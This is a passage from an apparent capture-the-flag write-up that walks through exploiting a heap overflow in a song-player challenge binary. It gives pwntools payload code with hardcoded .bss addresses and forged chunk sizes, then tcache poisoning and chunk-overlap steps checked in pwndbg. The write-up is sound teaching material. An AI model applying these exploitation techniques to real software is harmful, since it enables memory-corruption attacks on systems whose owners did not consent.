 Our final payload now would look something like the following, with the bss_segment addresses defined:

```python

bss_segment = p64(0x404078) #Song num 1's fd
bss_segment_2 = p64(0x404120) #Song num 4's fd (cuz song 2 and eventually 3 is now gone :()
payload = "A"*32
payload += bss_segment
payload += "B"*(32-8)
payload += bss_segment_2
payload += "C"*760


payload += p64(0) + p64(0x3c1) #Song num 45 is now in a 0x3c0 byte chunk
payload += "\x00"*(880 - 848 - 8)
payload += p64(0x3c1) #Song num 46 is now in an 0x3c0 byte chunk
payload += "\x00"*48
play_overflow("44", "-1", payload)
```

Now let's make use of it! First, now that we have corrupted song 45 and 46's `mchunk_size` headers to be 0x3c1, we can now free them. Do note that it's important to free song number 46 and then 45, so that when we reuse one of these chunks, the chunk for song 45 (which is located above 46) gets recycled first, allowing us to overwrite the `fd` pointer for freed chunk of song 46, poisoning it's tcache. We can do it with the following python snippet:

```python=
delete("46")
delete("45")
```

Let's actually see how the bin pointers look like now. We'll add an `sh.interactive()` at the end of our current exploit so that we can attach pwndbg to the process, and view the bins layout:

![](https://i.imgur.com/tj9XlkJ.png)

Well, our poisoning attack definitely worked for the 0x20 tcache bin and the 0x310 tcache bin, as they point to the .bss section now. Looking back at the heap layout ascii diagram, and back at this picture, we can deduce that freed song number 45 is at 0x4055b0, freed song number 46 is at 0x4055d0, freed song number 23 is at 0x4055f0. Since they're only 0x30 apart from each other, but they're all in the 0x3c0 tcache bin (so the heap thinks they're 0x3c0 in size), we can see that the overlap has worked as all three chunks have been overlapped.

(You may be wondering, why did I bother dealing with song number 46 at all if I can have the freed song number 45 overlap with freed song number 23. Well, that's correct - I don't really need song number 46. However this makes organization easier, as I did need a spot that I can be confident is free-able later on....you'll see!)

Looking at the bin diagram above, we can see that we need to allocate one memory chunk of size 0x20 before we can get malloc to return to song 1's `song->fd` location. We can actually do both now, since all we care about is setting song 1's `song->fd` to 0:

```python
play("14")
play("15") #Song no 1 now has fd 0
```
